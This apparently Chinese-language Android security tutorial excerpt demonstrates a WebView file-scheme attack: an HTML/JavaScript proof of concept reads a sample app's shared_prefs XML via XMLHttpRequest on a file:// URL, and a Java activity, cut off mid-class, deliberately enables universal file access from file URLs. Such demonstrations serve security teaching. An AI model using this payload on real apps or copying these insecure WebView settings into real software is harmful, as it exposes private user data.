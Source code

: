 ### file 域攻击示例：获取外部存储 shared_prefs 中的数据

- html

```html
<!DOCTYPE html>
<html>
     <script>
       function stealfile() {
           var file="file:///data/data/me.hacket.assistant.samples/shared_prefs/WebViewChromiumPrefs.xml";
           var xmlHttpReq = new XMLHttpRequest();
           xmlHttpReq.onreadystatechange = function() {
               if (xmlHttpReq.readyState == 4) {
                   if (xmlHttpReq.responseText.length < 1) {
                       alert(file);
                       stealfile();
                   } else{
                       alert(xmlHttpReq.responseText);
                   }
               }
           }

           xmlHttpReq.open("GET",file);
           xmlHttpReq.send(null);
       }
       setTimeout(stealfile,4000);
     </script>
     <body>
          4秒后将从file:///data/data/me.hacket.assistant.samples/shared_prefs/WebViewChromiumPrefs.xml中读取数据，alert出来
     </body>
</html>
```

- Java 代码

```java
public class SetAllowAccessFileActivity extends AppCompatActivity {
    private WebView mWebview;
    private Uri mUri;
    private String url;
    @SuppressLint("JavascriptInterface")
    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_set_allow_access_file);

        mWebview = (WebView) findViewById(R.id.webview);
        // Using setJavaScriptEnabled can introduce XSS vulnerabilities into your application, review carefully
        mWebview.getSettings().setJavaScriptEnabled(true);

        // None of the methods in the added interface (JSBridge) have been annotated with @android.webkit.JavascriptInterface; they will not be visible in API 17
        mWebview.addJavascriptInterface(new JSBridge(), "WE");

        mWebview.getSettings().setAllowFileAccess(true);
        mWebview.getSettings().setAllowFileAccessFromFileURLs(true);
        mWebview.getSettings().setAllowUniversalAccessFromFileURLs(true);
        mWebview.setWebChromeClient(new WebChromeClient() {
            @Override
            public boolean onJsAlert(WebView view, String url, String message, JsResult result) {
                return super.onJsAlert(view, url, message, result);
            }
```